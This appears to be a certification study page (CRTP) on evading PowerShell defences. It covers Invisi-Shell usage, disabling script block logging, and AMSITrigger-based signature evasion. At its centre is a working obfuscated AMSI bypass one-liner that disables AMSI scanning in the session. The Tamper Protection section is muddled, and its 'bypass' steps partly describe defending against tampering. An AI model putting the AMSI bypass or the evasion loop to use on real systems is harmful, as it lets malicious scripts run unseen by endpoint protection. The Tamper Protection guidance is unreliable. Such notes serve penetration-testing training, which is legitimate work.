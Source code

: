 ```yaml
---
description: >-
  Discover the intricacies of CRTP PowerShell Detections in our in-depth
  article. Learn about its importance, applications, and methodologies for
  effective cybersecurity management.
cover: ../.gitbook/assets/RFS (2).png
coverY: 0
---
```


# 😅 PowerShell Detections

```
https://github.com/OmerYa/Invisi-Shell
```

### Using Invisi Shell

With admin privileges:

```
RunWithPathAsAdmin.bat
```

With non admin privileges:

```
RunWithRegistryNonAdmin.bat
```

### System-Wide Transcription

#### Script Block Logging

Disable script block logging to prevent PowerShell from recording potentially sensitive scripts as they are executed. This can be done through group policy settings or registry modifications.

### AntiMalaware Scan Interface - AMSI

The provided script snippet is designed to bypass AMSI, which could allow malicious scripts to execute without being scanned and potentially detected by AMSI. Users should execute this with extreme caution, as it lowers your system's defenses against malware.

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Constrained Language Mode - CLM

To work around CLM:

1. Use AMSITrigger to identify which parts of your script are detected by AMSI.
2. Modify these parts and test again with AMSITrigger.
3. Continue this process until your script is no longer detected by AMSI.

The steps to avoid signature-based detection are pretty simple:&#x20;

1\) Scan using AMSITrigger&#x20;

2\) Modify the detected code snippet&#x20;

3\) Rescan using AMSITrigger&#x20;

4\) Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “

### Tamper Protection

Tamper Protection is a feature that prevents unauthorized changes to key security features, including disabling script block logging and system-wide transcription settings. To bypass Tamper Protection:

1. Carefully modify security settings with appropriate administrative credentials.
2. Employ sophisticated methods to alter or add registry keys related to Tamper Protection.
3. Monitor changes and revert any suspicious modifications by unauthorized processes.
4. Ensure continuous validation of the integrity and authenticity of security-related configurations.

Please note, that bypassing Tamper Protection can make your system vulnerable to attacks and should only be done by experienced individuals or for educational purposes in a controlled environment.

#### Testing with AMSITrigger:

To effectively test your changes without triggering the AMSI:

1. Run `AMSITrigger` to test the initial script or command.
2. Based on the feedback, modify the flagged code segments to avoid AMSI detection.
3. Re-run `AMSITrigger` to verify that the changes are sufficient.
4. If detection still occurs, repeat the modification process until an undetected state is achieved.

#### Final Notes

Always ensure that you have proper authorization before attempting to adjust or bypass security features. Unauthorized tampering with security settings is illegal and unethical and could lead to severe consequences.
